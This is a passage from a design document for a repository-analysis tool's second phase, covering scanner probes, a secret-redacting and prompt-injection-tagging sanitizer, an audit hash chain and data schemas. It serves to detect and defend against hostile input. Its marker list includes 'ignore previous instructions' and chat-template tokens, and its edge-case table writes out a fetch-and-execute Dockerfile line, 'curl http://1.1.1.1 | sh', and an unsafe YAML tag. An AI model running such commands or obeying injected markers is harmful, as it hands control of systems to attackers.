**Internal structure.** Uses the `dockerfile` Python library (pure-Python parser, well-fuzzed). Emits parsed instructions, multi-stage detection, `RUN` command shape, exposed ports, entrypoint form. **No `buildctl debug dump-llb` fallback** (would require BuildKit; expanding attack surface for marginal gain). Records `confidence: medium` when the parser can't fully resolve a `RUN` directive (complex variable interpolation).

**Dependencies.** `dockerfile` Python library (new pip dep, pure-Python).

**Performance envelope.** < 50 ms per Dockerfile.

**Failure behavior.** Parser raises → `confidence: low`. No Dockerfile → `applies()` returns `False`.

### 13. `SemgrepProbe` (G1)

**Provenance:** `[P per-file cache + S sandbox + B rule-pack catalog]` — `final-design.md §"Components" §7.1`.

**Public interface.**

```python
class SemgrepProbe(Probe):
    name = "semgrep"
    declared_inputs = [
      "src/**/*.{ts,tsx,mts,cts,js,mjs,cjs}",
      "Dockerfile", "Dockerfile.*",
      ".codegenie/semgrep-rules/**/*.yaml",
    ]
    requires = ["language_detection"]
    applies_to_languages = ["*"]
    timeout_seconds = 360
```

**Internal structure.**

- **Rule packs pinned by digest** in `tools/digests.yaml` (`p/dockerfile`, `p/nodejs`, `p/javascript`, `p/secrets`, `p/owasp-top-ten`, `p/cwe-top-25`). Pre-warmed at install time into a sandbox-readable cache directory. Invoked with `SEMGREP_RULES_CACHE=<pinned-dir> --disable-version-check --disable-metrics`. Network = `none`.
- **Per-file findings cache** under `.codegenie/cache/semgrep/by-file/`. Keyed on `(file_content_blake3, rule_pack_version_hash, semgrep_digest)`. On incremental gather, semgrep runs over changed files only; unchanged-file findings come from the sub-cache.
- **Cross-file taint mode** (`--config p/taint-mode`) is opt-in via `--paranoid`; bypasses the per-file cache.
- **Custom rules** under `.codegenie/semgrep-rules/` (repo-local) and `<configured-org-root>/semgrep-rules/` (org-shared, resolved at CLI, not in `declared_inputs` globs). Their content hashes participate in the cache key.
- **Rule pack catalog:** `src/codegenie/catalogs/semgrep_rule_packs.yaml` — declares which packs apply per task. Closed enum on `task_types`.

**Dependencies.** `semgrep` binary (SHA-256 verified); rule pack pins.

**Performance envelope.** ~15 s cold on 1k-file fixture; per-file cache hits make incremental ~3 s.

**Failure behavior.** Semgrep rule with pathological regex → `ToolTimeout` → probe `confidence: low` with rule_id in errors. Rule pack from network → refused (sandbox `--network=none`); CI canary asserts.

### 14. `GitleaksProbe` (G6) — secret scanning

**Provenance:** `[S + P PR-mode + B redaction discipline]` — `final-design.md §"Components" §7.2`.

**Public interface.**

```python
class GitleaksProbe(Probe):
    name = "gitleaks"
    declared_inputs = ["**/*"]            # filtered by Phase 1 exclusion set
    requires = []
    applies_to_languages = ["*"]
    applies_to_tasks = ["*"]
    timeout_seconds = 60
```

**Internal structure.**

- **Two invocation modes:**
  - Default: `gitleaks detect --no-banner --redact --no-git -f json -s <path>`.
  - PR-trigger mode (Phase 14 webhook): `gitleaks detect --no-banner --redact --no-git -f json --baseline-path <baseline> -s <path>`.
- **`--redact` is mandatory.** Wrapper enforces; missing flag → `ToolInvariantViolation` (typed exception); CI fixture asserts.
- **`OutputSanitizer` Pass 4 belt-and-suspenders:** any field matching `match|secret|finding|raw|context|value` regex is rewritten to `{content_hash: BLAKE3(value), entropy_band: low|med|high, length: int}`.
- **Findings carry** `file`, `line_start`, `line_end`, `rule_id`, `commit`, `entropy_band`, `content_hash`. Raw secret bytes never reach the cache, audit, or `repo-context.yaml`.
- **History scan** (across git log) is opt-in (default off).

**Dependencies.** `gitleaks` binary; `OutputSanitizer` Pass 4 (this phase).

**Performance envelope.** ~5 s on 1k-file fixture cold; per-file cache makes incremental ~1 s.

**Failure behavior.** `--redact` missing in wrapper invocation → `ToolInvariantViolation`. Gitleaks non-zero → `confidence: low`.

### 15. `OutputSanitizer` — Pass 4 + Pass 5

**Provenance:** `[S]` — `final-design.md §"Components" §9`. ADR-0006 this phase.

**Public interface.** Phase 0's `OutputSanitizer.scrub(probe_output: dict) -> dict` signature unchanged. Internal pass list extends from 3 to 5:

```python
# src/codegenie/output_sanitizer.py
class OutputSanitizer:
    def scrub(self, output: dict) -> dict:
        output = self._pass1_field_name_regex(output)       # P0
        output = self._pass2_path_scrub(output)              # P0
        output = self._pass3_size_depth_cap(output)          # P1
        output = self._pass4_secret_fingerprinter(output)    # P2 NEW
        output = self._pass5_prompt_injection_marker(output) # P2 NEW
        return output
```

**Internal structure.**

- **Pass 4 (secret-finding fingerprinter).** Walks the output tree; any field whose key matches `match|secret|finding|raw|context|value` regex (case-insensitive) is rewritten to `{content_hash: BLAKE3(value).hex(), entropy_band: classify(value), length: len(value)}`. The original value is never logged.
- **Pass 5 (prompt-injection marker tagger).** Scans long strings (>256 chars) for marker patterns (`<\|im_start\|>`, `[INST]`, `<<SYS>>`, `ignore previous instructions`, etc.); emits `prompt_injection_marker_count` metadata on the slice; **preserves the string verbatim** (so Phase 3's context assembler can route via tool-output, not inline).
- **Schema-level enforcement** as belt-and-suspenders: any object tagged `x-secret-finding: true` in its sub-schema is required to have `content_hash`, `entropy_band`, `length` and forbidden from having `match|raw|value|secret|context`.

**Dependencies.** `blake3` (Phase 0 dep), `re`, pure-Python.

**Performance envelope.** Pass 4 + Pass 5 combined: < 10 ms per probe output on typical sizes; < 100 ms on 50 MB semgrep findings.

**Failure behavior.** Pass 4 missing required `content_hash` → schema validator fails at envelope write; CLI exits 3 with the offending probe + field path. Pass 5 marker detection is best-effort; never fails the gather.

### 16. `AuditWriter` — rolling BLAKE3 chain head

**Provenance:** `[S]` — `final-design.md §"Components" §10`. ADR-0011 this phase.

**Public interface.** Phase 0's `AuditWriter.write(record: AuditRecord)` signature unchanged. Internal addition:

```python
# src/codegenie/audit_writer.py
class AuditWriter:
    def write(self, record: AuditRecord) -> None:
        prev_head = self._read_previous_chain_head()
        record.previous_hash = prev_head
        record_bytes = self._serialize(record)
        record.chain_head = blake3(prev_head + record_bytes).hexdigest()
        self._append_jsonl(record)

    def verify_previous_head(self) -> ChainHeadStatus:
        """Called at next gather start. Re-computes the prior chain head
        from the JSONL tail and compares to runs/<utc>.json#chain_head."""
```

**Internal structure.** Phase 0's audit JSON enriched with `previous_hash` + `chain_head` per gather. Chain head written to `runs/<utc>.json#chain_head`. On next gather start, prior chain head is verified. A chain break emits `audit.chain_break_detected` (observability only — does not fail the gather; Phase 14's transparency log replaces this).

**Dependencies.** `blake3`, stdlib.

**Performance envelope.** < 5 ms per gather.

**Failure behavior.** Chain break → observability metric fires; gather continues. Audit JSONL append failure → gather fails (Phase 0 behavior).

### 17. Per-file findings cache + `.codegenie/index/`

**Provenance:** `[P + S agreement]` — `final-design.md §"Components" §8`.

**Public interface.** New on-disk namespaces under the analyzed repo:

```
.codegenie/cache/
├── blobs/                          (Phase 0; per-probe ProbeOutput blobs)
├── semgrep/by-file/                (NEW Phase 2)
│   └── <file_blake3>.<rule_pack_version>.msgpack
├── gitleaks/by-file/
│   └── <file_blake3>.msgpack
└── tree-sitter/by-file/
    └── <file_blake3>.<grammar_version>.msgpack

.codegenie/index/
└── scip-index.scip                 (NEW Phase 2; per-repo binary;
                                     rewritten in place; NOT under cache/)
```

**Internal structure.** Each per-file sub-cache:

- **Key:** file content BLAKE3 + tool/rule/grammar version.
- **Value:** msgpack-serialized findings/queries for that file.
- **LRU-by-access-time eviction** with 5 GB cap (Phase 2 default; Phase 14 tunes).
- **Independent layer** from the per-probe `ProbeOutput` cache (which lives in `cache/blobs/`).
- **Per-blob BLAKE3 integrity check** on read; mismatched blob deleted; probe re-runs.

**`cache gc` extended** to manage the sub-caches; `.codegenie/index/scip-index.scip` is per-repo (never auto-deleted); manual `cache prune-index` for the SCIP file.

**Dependencies.** `msgpack` (new pip dep, pure-Python or pre-built wheel; CVE-pin via `tools/digests.yaml`), `blake3` (Phase 0).

**Performance envelope.** Per-file lookup: < 1 ms. Sub-cache hit ratio on incremental gather: > 95% for unchanged files.

**Failure behavior.** Sub-cache corruption (BLAKE3 mismatch) → blob deleted; probe re-runs that file. Concurrent cache poisoning → per-probe blob directory + atomic-write + BLAKE3 integrity catches; mismatching blob deleted (`final-design.md §"Failure modes" `).

### 18. Coordinator — peer-output binding (one branch)

**Provenance:** `[synth]` — `final-design.md §"Components" §12`. ADR-0001 this phase.

**Public interface.** Phase 0's `Coordinator.dispatch(probe)` signature unchanged. One internal branch:

```python
# src/codegenie/coordinator/dispatch.py (abridged)
async def _dispatch(self, probe: Probe, ctx: ProbeContext) -> ProbeOutput:
    if getattr(probe, "consumes_peer_outputs", False):
        # Wave-last dispatch: peer outputs are already computed + sanitized
        peer_outputs = self._build_frozen_peer_snapshot()
        return await probe.run(self._snapshot, ctx, peer_outputs)
    return await probe.run(self._snapshot, ctx)

def _build_frozen_peer_snapshot(self) -> Mapping[str, ProbeOutput]:
    """Returns an immutable Mapping over all completed peer ProbeOutputs,
    post-sanitization. Constructed once per gather; reused if multiple
    consumers exist (only IndexHealthProbe in Phase 2)."""
```

**Internal structure.** `Probe.consumes_peer_outputs: ClassVar[bool] = False` is added to the ABC as an optional class attribute (default `False`). `inspect.signature` is used once at registration time to verify probes with `consumes_peer_outputs = True` have a three-arg `run()` signature. The dispatch loop chooses the right call shape (`run(snapshot, ctx)` vs `run(snapshot, ctx, peer_outputs)`). **Probes that don't declare the attribute see the standard two-arg signature** — 99% of probes are unaffected.

**Dependencies.** Phase 0/1 coordinator; `inspect` stdlib.

**Performance envelope.** Frozen snapshot construction: < 5 ms (already-sanitized dicts, shallow copy with `types.MappingProxyType`).

**Failure behavior.** Probe declares `consumes_peer_outputs = True` but has wrong `run()` signature → registration-time error (`ProbeRegistrationError`); CLI exits 2 at startup.

### 19. Tree-sitter wrapper — `tools/treesitter.py`

**Provenance:** `[B per-file cache + synth on in-process bindings]`.

**Public interface.**

```python
async def query(
    file_path: Path,
    *,
    grammar: Literal["typescript", "javascript", "tsx"],
    query_pack: Path,           # YAML query pack
    timeout_s: float = 5.0,
) -> TreesitterResult: ...
```

**Internal structure.** Uses Python `tree-sitter` bindings (in-process; no subprocess). Grammars: `tree-sitter-typescript`, `tree-sitter-javascript` — pinned by wheel hash + `tools/digests.yaml` grammar SHA cross-check. Per-file cache hit under `.codegenie/cache/tree-sitter/by-file/<file_blake3>.<grammar_version>.msgpack`.

**Why in-process:** tree-sitter is a code-loading interpreter, but the threat is the *grammar* (CVE in the C library), not user-supplied code; pinned wheel hashes + `pip-audit`/`osv-scanner` (Phase 0 gates) cover the grammar CVE class. In-process avoids ~200 ms fork+exec per file invocation — exactly the case `[P]`'s observation about "no fork+exec cost" is real.

**Dependencies.** `tree-sitter`, `tree-sitter-typescript`, `tree-sitter-javascript` (C extensions; pinned).

**Performance envelope.** Tree-sitter parses TS at ~10k LOC/s; per-file caching saves redundant cost on incremental gathers. Hard cap: 5 s per file (typed exception).

**Failure behavior.** Grammar version mismatch → `ToolOutputMalformed`. Parser timeout (>5 s) → typed exception; per-file finding `confidence: low`.

### 20. Layer D probes — RepoConfig, ADR, Policy, Exception, RepoNotes

**Provenance:** `[B + S sanitizer pass 5 on D7]` — `final-design.md §"Components" §5.5`.

**Public interface.** Each is a standard probe; < 80 LOC; reads a known path (or globs); validates against a small Pydantic model; emits a structural slice.

**Internal structure highlights:**

- **`RepoNotesProbe` (D7):** bodies stored under `.codegenie/context/raw/notes/` at `0600`; **never inlined** into `repo-context.yaml`; scanned by Pass 5 for prompt-injection markers; recorded with `prompt_injection_marker_count`.
- **`ExceptionProbe` (D6):** date-parses `expires`; emits structured entries.
- **`ADRProbe` (D3):** walks `docs/adr/` and friends; ADR ID + status + title only.
- **`PolicyProbe` (D4):** reads `policy/*.yaml`; validates against `policy.schema.json`.
- **`RepoConfigProbe` (D1):** reads `.codegenie/config.yaml` if present; validates.

All five are Tier-0 (pure-Python YAML/markdown reads, < 100 ms each).

**Dependencies.** Phase 1 `safe_yaml`/`safe_json`/`jsonc`; `markdown-it-py` for `ExternalDocsProbe` only.

### 21. Layer E — `OwnershipProbe` real; E2–E5 stubs

**Provenance:** `[B]` — `final-design.md §"Components" §6`.

**Public interface.** `OwnershipProbe` reads `CODEOWNERS` (GitHub-documented format); pure-Python parser; emits `code_owners: list[{path_pattern, owners}]`. `ServiceTopologyProbe`, `ServiceContractProbe`, `SLOProbe`, `ProductionConfigProbe` are stubs: `applies()` returns `False` unless config provides a source; one unit test per stub asserts the stub shape.

## Data model

Pydantic-style sketches showing the load-bearing shapes. Full sub-schemas land under `src/codegenie/schema/probes/`. Each `extra="forbid"` mirrors `additionalProperties: false` at the JSON Schema root (ADR-0004 from Phase 1).

```python
# PUBLIC contract — ProbeOutput (Phase 0 unchanged; carried forward)
class ProbeOutput(BaseModel):
    model_config = ConfigDict(extra="forbid")
    probe_name: str
    probe_version: str
    schema_version: str
    confidence: Literal["high", "medium", "low"]
    slice: dict[str, JSONValue]       # per-probe; validated by sub-schema
    errors: list[str]
    warnings: list[WarningId]
    declared_inputs_hash: str         # BLAKE3 over sorted (path, size) tuples
    wall_clock_ms: int
    cache_key: str
    execution: Literal["Ran", "CacheHit", "Skipped"]

# WarningId — pattern constraint carried from Phase 1 (ADR-0007 Phase 1)
WarningId = Annotated[str, Pattern(r"^[a-z][a-z0-9_]*\.[a-z][a-z0-9_]*$")]

# PUBLIC contract — Skill manifest (frontmatter)
class Skill(BaseModel):
    model_config = ConfigDict(extra="forbid")
    schema_version: Literal["v1"]
    name: str
    version: str
    applies_to: SkillApplies
    required_tools: list[str]
    body_path: Path
    body_char_count: int
    applicability: Literal["available", "degraded", "unavailable"]

class SkillApplies(BaseModel):
    model_config = ConfigDict(extra="forbid")
    task_types: list[str]
    languages: list[str]
    conditions: list[dict[str, Any]]

# PUBLIC contract — ConventionsRule
class ConventionRule(BaseModel):
    model_config = ConfigDict(extra="forbid")
    id: WarningId
    detect: ConventionDetect
    severity: Literal["info", "warn", "error"]
    rationale: str

class ConventionDetect(BaseModel):
    model_config = ConfigDict(extra="forbid")
    type: Literal[
      "file_present", "package_dep", "regex_in_file",
      "tsconfig_field", "dockerfile_directive",
    ]
    args: dict[str, Any]

# PUBLIC contract — IndexHealth slice
class IndexHealthSlice(BaseModel):
    model_config = ConfigDict(extra="forbid")
    scip: DomainHealth | None
    sbom: DomainHealth | None
    cve: DomainHealth | None
    semgrep: DomainHealth | None
    gitleaks: DomainHealth | None
    runtime_trace: DeferredDomainHealth
    confidence_summary: ConfidenceSummary   # shaped for Phase 8 hot view
    budget_exceeded: bool

class DomainHealth(BaseModel):
    model_config = ConfigDict(extra="forbid")
    last_indexed_commit: str | None
    commits_behind: int
    coverage_pct: float | None
    indexer_errors: list[str]
    tool_digest_in_use: str | None
    confidence: Literal["high", "medium", "low"]
    status: Literal["ok", "failed_upstream", "stale", "not_applicable"]

class DeferredDomainHealth(BaseModel):
    model_config = ConfigDict(extra="forbid")
    status: Literal["not_applicable"]
    reason: str

class ConfidenceSummary(BaseModel):
    model_config = ConfigDict(extra="forbid")
    overall: Literal["high", "medium", "low"]
    per_domain: dict[str, Literal["high", "medium", "low"]]

# PUBLIC contract — Finding (semgrep / gitleaks shape; x-secret-finding tagged)
class SemgrepFinding(BaseModel):
    model_config = ConfigDict(extra="forbid")
    rule_id: str
    file: str
    line_start: int
    line_end: int
    severity: Literal["info", "warn", "error"]
    rule_pack: str
    rule_pack_version: str
    message_content_hash: str    # Pass 4 fingerprint; raw message NOT stored

class GitleaksFinding(BaseModel):
    model_config = ConfigDict(extra="forbid")
    rule_id: str
    file: str
    line_start: int
    line_end: int
    commit: str | None
    entropy_band: Literal["low", "med", "high"]
    content_hash: str           # BLAKE3 of the secret bytes
    length: int                 # length of the original secret
    # NO match / raw / value / secret / context fields permitted

# PUBLIC contract — SBOM doc (syft output abridged)
class SBOMSlice(BaseModel):
    model_config = ConfigDict(extra="forbid")
    image_digest: str
    base_image: BaseImageRef
    packages: list[SBOMPackage]
    build_status: Literal["ok", "failed"]
    network_egress_attempted: bool
    syft_version: str

class SBOMPackage(BaseModel):
    model_config = ConfigDict(extra="forbid")
    name: str
    version: str
    type: Literal["npm", "deb", "apk", "rpm", "binary"]
    purl: str
    licenses: list[str]

# PUBLIC contract — CVE match (grype output abridged)
class CVESlice(BaseModel):
    model_config = ConfigDict(extra="forbid")
    matches: list[CVEMatch]
    grype_db_version: str
    grype_version: str

class CVEMatch(BaseModel):
    model_config = ConfigDict(extra="forbid")
    cve_id: str
    severity: Literal["negligible", "low", "medium", "high", "critical"]
    package_name: str
    package_version: str
    fix_available: bool
    fix_versions: list[str]

# PUBLIC contract — DepGraph (B5 BuildGraphProbe)
class BuildGraphSlice(BaseModel):
    model_config = ConfigDict(extra="forbid")
    resolution_status: Literal["static_only", "resolved", "resolved_with_discrepancy"]
    declared_edges: list[DepEdge]
    resolved_edges: list[DepEdge] | None
    workspaces: list[Workspace]

class DepEdge(BaseModel):
    model_config = ConfigDict(extra="forbid")
    from_pkg: str
    to_pkg: str
    version_constraint: str
    edge_type: Literal["dependencies", "devDependencies", "peerDependencies"]

# PUBLIC contract — AuditEntry (BLAKE3-chained JSONL)
class AuditRecord(BaseModel):
    model_config = ConfigDict(extra="forbid")
    run_id: str
    gather_started_utc: str
    gather_completed_utc: str
    sherpa_commit: str
    python_version: str
    tool_digests: dict[str, str]
    per_probe: list[AuditPerProbe]
    yaml_sha256: str
    previous_hash: str          # rolling BLAKE3 chain head — P2
    chain_head: str             # rolling BLAKE3 chain head — P2
```

The cross-probe schema dependency rule is enforced at the envelope level via Draft 2020-12 `if/then`:

```json
{
  "if":   { "properties": { "probes": { "required": ["cve_scan"] } } },
  "then": { "properties": { "probes": { "properties": {
            "index_health": { "properties": { "cve": { "required": ["confidence"] } } }
          }}}}
}
```

## Control flow

**Happy path (one paragraph).** `CodegenieCLI.main` (Phase 0/1) parses argv via `click`. The tool-readiness check now probes for `git`, `node`, `scip-typescript`, `semgrep`, `syft`, `grype`, `gitleaks`, `docker`, and `bwrap`/`sandbox-exec`; SHA-256 digests are verified against `tools/digests.yaml` (warning on mismatch). The CLI resolves Skills roots from `--skills-root` args + `$HOME`-expanded path + config (the loader sees only absolute paths). `SkillsLoader.discover_skills(...)` runs once at startup, builds the `SkillIndex`, exits 2 on any malformed SKILL.md. `AuditWriter.verify_previous_chain_head()` runs; chain break is observability-only. `Coordinator.gather(...)` constructs the `ParsedManifestMemo` (Phase 1) and exposes it on `ProbeContext`. Wave 1 runs `LanguageDetectionProbe`. Wave 2 dispatches Phase 1 Layer A probes in parallel. Wave 3 dispatches Layer B probes (`SCIPIndexProbe` dominates ~25 s); SCIP binary written to `.codegenie/index/scip-index.scip`. Wave 4 dispatches Layer C (`DockerfileProbe` first, then `SyftSBOMProbe` consuming it, then `GrypeCVEProbe`, then `ShellUsageProbe`/`CertificateProbe`/`EntrypointProbe`); `RuntimeTraceProbe.applies()=False` so it's skipped. Wave 5 dispatches Layer G (`SemgrepProbe`, `GitleaksProbe`, others — per-file findings caches consulted). Layer D probes dispatch alongside (Tier-0 pure-Python). After all peers complete, the coordinator builds the frozen `peer_outputs` snapshot and runs `IndexHealthProbe` last; its result is the `index_health` slice + `confidence_summary` slice. Every `ProbeOutput` flows through `OutputSanitizer` passes 1–5; Pass 4 fingerprints any secret-shaped fields, Pass 5 tags prompt-injection markers. Schema validation runs (envelope + 17 sub-schemas + the `if/then` cross-probe rule). YAML is atomically written; raw artifacts placed under `raw/`; SCIP binary stays in place at `.codegenie/index/`. The audit record is appended JSONL with a fresh BLAKE3 chain head. Exit 0 — or **exit 3** if `--strict` is set and any `index_health.<domain>.confidence == "low"`.

**Decision points.**

- **Wave ordering** (Coordinator): topological ordering via `requires` is the Phase 0/1 seam; Phase 2 leverages it. `IndexHealthProbe` runs strictly last because its `requires` covers every Phase 2 index-producing probe.
- **`consumes_peer_outputs` dispatch** (Coordinator): one branch in `_dispatch`; constructs frozen snapshot once per gather; passes as third positional arg.
- **`node_modules` policy** (`SCIPIndexProbe`): if `node_modules/` exists at gather time → read-only mount; if absent → don't invoke `npm install`; `confidence: medium`.
- **Package manager resolution path** (`BuildGraphProbe`): static parse always; resolved parse only if PM is on `$PATH` and repo is monorepo. `--ignore-scripts` is non-negotiable; wrapper raises on missing flag.
- **`--strict` flag** (CLI): maps `index_health.<domain>.confidence == "low"` to exit code 3 after envelope is written.
- **Sandbox network** (`run_in_sandbox`): default `network="none"`; `"scoped"` is opt-in per-tool with explicit allowlist (only `grype db update` and `docker build` base-image pull use it).
- **`OutputSanitizer` passes 4/5**: Pass 4 is **mandatory**; Pass 5 emits metadata only and preserves strings verbatim.
- **Audit chain break** (`AuditWriter.verify_previous_chain_head`): observability event only; gather continues. Phase 14's transparency log replaces this behavior.

## Harness engineering

The Phase 0/1 harness shapes are preserved. Phase 2 adds new structlog event names, new typed errors, and one new tracing field.

- **Logging strategy.** Inherits Phase 0/1's `structlog` config. New event names: `probe.tool.invoked` (with `tool_name`, `argv_hash`, `wall_clock_ms`, `sandbox_network`), `probe.sandbox.network_egress_attempted` (with `tool`, `host`), `probe.sanitizer.pass4_fingerprint` (with `probe`, `field_path`, `entropy_band`, `length`), `probe.sanitizer.pass5_marker_detected` (with `probe`, `marker_count`, `body_path`), `audit.chain_head.advanced` (with `previous_hash`, `chain_head`), `audit.chain_break.detected` (with `expected_previous_hash`, `actual_previous_hash`), `probe.skill_loader.skill_loaded` (with `skill_name`, `applicability`), `probe.peer_outputs.snapshot_built` (with `probe`, `peer_count`, `wall_clock_ms`), `index_health.budget_exceeded` (with `budget_ms`, `actual_ms`).
- **Tracing strategy.** Pre-OpenTelemetry. Phase 0's `run_id = secrets.token_hex(8)` continues to thread every event. Phase 2 adds two structured fields: `tool_name` (one of the seven external CLIs) and `sandbox_network` (`"none"` or `"scoped"`). Phase 13's OTel lands without rename.
- **Idempotence.** `codegenie gather` remains idempotent on identical inputs. Tool-version drift (digest change) invalidates relevant cache entries. The audit chain head advances by one per gather; same input bytes + same chain head + same Phase 2 code → same output bytes.
- **Determinism vs probabilism.** Every Phase 2 component is **deterministic**. No LLM. No embeddings (BM25 only; tantivy opt-in extra). No probabilistic classifier. The only stochastic input is the gather's UTC timestamp (written to `runs/<utc>.json`), which is excluded from `repo-context.yaml`. The `fence` CI job extended to forbid `tantivy` ML deps by default (ADR-0010 this phase).
- **Replay / debuggability.** A failed Phase 2 gather leaves: (a) the partial `repo-context.yaml.invalid` (if sub-schema validation failed); (b) per-probe `raw/<probe>.json` for the probes that succeeded; (c) `.codegenie/index/scip-index.scip` if SCIP completed before failure; (d) the audit record with per-probe `cache_key`, `wall_clock_ms`, `tool_digest_in_use`; (e) the full structlog JSON stream on stderr. To reproduce: `git checkout <sherpa_commit>`, install pinned tool versions from `tools/digests.yaml`, run `codegenie gather --no-cache <path>`.
- **Configuration.** Phase 0/1's three-source merge unchanged. Phase 2 adds these config fields: `external_docs.filesystem_paths: list[Path]`, `skills.extra_roots: list[Path]`, `semgrep.custom_rules_root: Path | None`, `grype.db_update_max_age_hours: int = 24`. No new env vars.

## Agentic best practices

Phase 2 has no LLM, no agent. But the contracts and harness shapes are *the* shapes Phases 4–16 inherit.

- **Typed state contracts at boundaries.** `ProbeOutput` is the chokepoint; every Phase 2 probe emits a Pydantic-validated dict that maps 1:1 to its sub-schema. The frozen `peer_outputs` snapshot is a `MappingProxyType` view — mutation attempts raise `TypeError`. Skills, conventions, exceptions, and policies are all data, not prompts — `final-design.md` §"Load-bearing commitments check" #6.
- **Tool-use safety.** `exec.ALLOWED_BINARIES` grows from `{"git", "node"}` to `{"git", "node", "scip-typescript", "semgrep", "syft", "grype", "gitleaks", "docker"}` (ADR-0005 this phase). Each new binary's threat + invocation pattern is documented in its per-binary ADR subsection. Env-strip extended; sandbox `--network=none` default; per-tool scoped egress allowlist; SHA-256 digest verification at install.
- **Prompt template structure.** N/A in Phase 2 (no prompts). The seam Phase 0 sketched (`src/codegenie/prompts/<persona>/<vN>.j2`) remains unbuilt; Phase 4 builds it. **Pass 5's prompt-injection marker tagger is the *defensive* posture for Phase 4** — when prompts assemble from `RepoNotesProbe` / `ExternalDocsProbe` bodies, the marker count tells the assembler to route via tool-output rather than inline.
- **Confidence handling (ADR-0008 production).** Phase 2 honors objective-signal trust scoring throughout. `IndexHealthProbe`'s per-domain confidence is computed from `commits_behind`, `coverage_pct`, `indexer_errors`, `tool_digest_in_use` — all objective. No probe self-reports confidence based on LLM judgment (no LLM exists in Phase 2). `--strict` is the CI hammer; the dashboard is the developer-facing signal.
- **Error escalation.** Phase 0/1's `CodegenieError` hierarchy extends with: `ToolNotFound`, `ToolTimeout`, `ToolNonZeroExit`, `ToolOutputMalformed`, `ToolInvariantViolation` (e.g., `--ignore-scripts` missing), `SandboxLaunchError`, `SkillLoadError`, `CatalogLintMismatch`, `AuditChainBreakDetected` (observability event; not a raise). Each is caught at the probe boundary into `ProbeOutput.errors` with a structured `WarningId`. Coordinator-level escalation behavior unchanged.

## Edge cases

Sixteen edge cases. Pulled from `final-design.md §"Failure modes & recovery"`, `critique.md`, the three lens designs, and several surfaced while elaborating the architecture.

| # | Edge case | Manifests as | Detected by | System behavior |
|---|---|---|---|---|
| 1 | Poisoned skill YAML (e.g., `applies_to.task_types: !!python/object`) | `safe_yaml.load` refuses unsafe tag; `SkillLoadError` raised | Loader frontmatter validation against `skill.schema.json` | **Hard fail at CLI startup** with `skill_path`; CLI exits 2; no gather runs. Adversarial fixture `test_skill_yaml_injection.py` |
| 2 | Prompt-injection text in `RepoNotesProbe` body (`<\|im_start\|>system\n...`) | `OutputSanitizer` Pass 5 detects markers; emits `prompt_injection_marker_count: ≥1` | Pass 5 marker tagger on strings >256 chars | Body stays at `0600` under `raw/notes/`; NOT inlined in YAML; metadata recorded; gather completes; Phase 3 context assembler routes via tool-output. Adversarial fixture `test_repo_note_prompt_injection.py` |
| 3 | `scip-typescript` timeout on huge `tsconfig` (>10k files, deep includes) | Coordinator kills at 1.5× `timeout_seconds` = 900 s | `asyncio.wait_for` (Phase 0) | `SCIPIndexProbe` records `confidence: low`, `errors: ["timeout"]`; partial `scip-index.scip` discarded; gather continues; `IndexHealthProbe` reports `scip: confidence: low` |
| 4 | Semgrep finding contains raw secret bytes (rule accidentally captured) | Pass 4 fingerprinter rewrites `match`/`secret`/`context` fields to `{content_hash, entropy_band, length}` | Pass 4 + schema `x-secret-finding: true` tag at validation | Raw bytes never reach cache, audit, or YAML; if schema tag fires on missing `content_hash`, CLI exits 3 with the offending field path. Test `test_gitleaks_redaction_invariant.py` |
| 5 | CVE feed (grype DB) unavailable on cache miss | `grype db update` non-zero exit; sandbox `network="scoped"` host unreachable | Wrapper raises `ToolNonZeroExit`; probe catches | `GrypeCVEProbe` runs against stale DB if available; emits `confidence: medium`, `warnings: ["grype.db_update_failed"]`; if no DB at all, `confidence: low`. `IndexHealthProbe.cve.confidence: low` |
| 6 | Gitleaks false-positive in test fixture (e.g., `AKIAFAKE0000000000`) | `GitleaksProbe` emits finding; `OutputSanitizer` fingerprints it | Pass 4 rewrites to `{content_hash, entropy_band: low, length: 20}` | YAML carries `rule_id`, `file`, `line`, `content_hash`, `entropy_band: low`; engineer can diff fingerprints across runs to identify FP class; baseline-mode usage in Phase 14 |
| 7 | `IndexHealthProbe` reports `status: failed_upstream` because `SyftSBOMProbe` failed | B2's per-domain rollup detects missing peer | Frozen snapshot inspection | `index_health.sbom: {status: "failed_upstream", confidence: "low"}`; gather exits 0 unless `--strict`. **Not** `not_run` (which is reserved for probes that never dispatched) |
| 8 | Package manager < 7 refuses `--ignore-scripts` (legacy npm) | Wrapper `subprocess` exits non-zero with stderr mention | `BuildGraphProbe` wrapper invariant check | Wrapper raises `ToolInvariantViolation` if the flag is missing; probe falls back to **static-only** with `resolution_status: static_only`, `confidence: medium`, `warnings: ["build_graph.legacy_npm_no_ignore_scripts"]` |
| 9 | Hostile Dockerfile `RUN curl http://1.1.1.1 \| sh` | `SyftSBOMProbe` sandbox build with `--network=none`; curl fails | Build exit non-zero; wrapper records `network_egress_attempted: true` | `build_status: failed`, `network_egress_attempted: true`, `confidence: low`. **Honest evidence**; Planner sees supply-chain risk. Adversarial fixture `test_hostile_dockerfile_curl.py` |
| 10 | `tsconfig.json#extends` chain traversal escape (`extends: "../../etc/foo"`) | `NodeBuildSystem` (Phase 1) refuses paths outside `repo_root` | Phase 1's bounded `extends` walker | Already Phase 1 behavior; `confidence: medium`; warning `tsconfig.extends_escape`. Adversarial fixture `test_scip_compiler_plugin_attempt.py` (Phase 2) verifies SCIP sandbox contains the attempt |
| 11 | Semgrep ReDoS rule (pathological regex in custom rule) | Wrapper `timeout_s = 360` enforced; sandbox process killed | Coordinator wait + sandbox kill | `SemgrepProbe` `confidence: low`; rule flagged in audit; subsequent runs cache miss. Adversarial fixture `test_semgrep_redos.py` |
| 12 | Tree-sitter grammar version mismatch (wheel pinned to v0.20; installed v0.21) | `tools.treesitter.query` raises `ToolOutputMalformed` at parse | Phase 0 `pip-audit`/`osv-scanner` gate; install-time CI check | Install fails; engineer must reconcile grammar pin in `tools/digests.yaml`. Adversarial fixture `test_treesitter_grammar_version_mismatch.py` |
| 13 | Concurrent gather cache poisoning (two CI workers write to same `.codegenie/cache/blobs/`) | BLAKE3 integrity check on read; mismatching blob deleted | Per-probe blob directory + atomic-write + Phase 0 cache layout | Mismatching blob deleted; probe re-runs; subsequent gather is correct. Adversarial fixture `test_concurrent_cache_poisoning.py` |
| 14 | BLAKE3 audit chain break (someone deleted `runs/<prior-utc>.json`) | `AuditWriter.verify_previous_chain_head` detects mismatch | Chain head re-compute on next gather start | `audit.chain_break_detected` event fires (observability); gather **continues**; new chain starts fresh from current head. Phase 14's transparency log replaces this. Adversarial fixture `test_audit_chain_break_observability.py` |
